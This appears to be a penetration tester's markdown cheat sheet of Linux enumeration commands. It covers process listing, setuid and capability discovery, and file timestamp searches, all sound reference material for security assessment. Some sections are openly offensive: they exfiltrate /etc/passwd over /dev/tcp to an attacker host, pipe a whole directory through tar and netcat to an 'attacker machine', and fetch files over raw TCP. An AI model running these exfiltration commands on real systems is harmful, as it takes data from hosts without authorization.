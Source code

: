# linux enumeration quick commands

## list all recursively with ls sorting by modification date within directories
```bash
ls -alRt
```

## enumerate open ports if `ss` is not present
```bash
netstat -tunlp
```

## process tree ps
```bash
ps -auxwf
ps -efw --forest
ps -efw --forest -M                  # SELinux
```

## find setuid binaries
```bash
find / -perm -4000 -ls 2>/dev/null
```

## find files belonging to user
```bash
find / -user username 2>/dev/null
```

## find files belonging to group
```bash
find / -group adm 2>/dev/null
```

## find files modified between specific dates
```bash
find / -type f -newermt "2022-02-20" -not -newermt "2022-02-28" 2>/dev/null
```

## find files modified between specific dates (with reference files)
```bash
touch --date "2007-01-01" /tmp/start
touch --date "2008-01-01" /tmp/end
find /data/images -type f -newer /tmp/start -not -newer /tmp/end 2>/dev/null
```

## get all file hashes in directory using find and md5sum
```bash
find . -exec md5sum {} \;
```

## get number of CPU processors
```bash
cat /proc/cpuinfo | grep processor | wc -l
```

## find all git repositories
```bash
find / -name .git 2>/dev/null
```

## get IP with no `ifconfig` or `ip a` on a host or within docker container
```bash
hostname -I
```
    -i, --ip-address       addresses for the host name
    -I, --all-ip-addresses all addresses for the host

## transfer / download files with just bash
### receive
```bash
LHOST=1.2.3.4
LPORT=443
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```
### send
```bash
LPORT=443
nc -lvnp $LPORT < filename
```

## exfiltrate files bash pipe tcp
```bash
cat /etc/passwd > /dev/tcp/$LHOST/$LPORT
bash -c "cat /etc/passwd > /dev/tcp/$LHOST/$LPORT"
```

## find files that have millisecond microsecond nanosecond times not common install
files from package managers usually have all 0 for microsecond time in the file system, so files with microsecond times were touched by programs.
full iso time can be sorted alphabetically, so pipe to sort to sort the results.
```bash
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000
find /etc/ -type f -printf "%T+ %p\n" 2>/dev/null | grep -v 0000000000 | sort
```

## copy entire directory to attacker machine quickly by piping tar
attacker
```bash
# attacker
nc -lvnp 1337 | tar -xf -
# target
tar -cf - . | nc $LHOST 1337
```

## capabilities

### get capabilities of all files recursively
```bash
getcap -r / 2>/dev/null
```

### without getcap binary
```bash
cat /proc/self/status | grep Cap
cat /proc/$pid/status | grep CapEff
```

### running process effective capabilities
```bash
cat /proc/*/status | awk '/CapEff/ && $2 !~ /^0*$/ { print name, pid, uid, $2 } /^Pid/ { pid = $2 } /^Uid/ { uid = $2 } /^Name/ { name = $2 }'
```

### decode on host machine with capsh
```bash
capsh --decode=000001ffffffffff
```

## list systemd timers
```bash
systemctl list-timers
```

## check if users can see other users' processes
the proc pseudo file system will be mounted with `hidepid=2`.
the `gid` option specifies a group id that can read all processes.
```bash
mount | grep hidepid
```

## file transfer with cat herefiles
```bash
cat << EOF >> filename.sh
# paste file contents here
EOF
```

# get facl recursively centos / redhat
```bash
getfacl -R -s .
getfacl -R -s /
```

# get all root process IDs
```bash
ps -ef | awk '/^root/ && !/\]$/ { print $2 }'
```
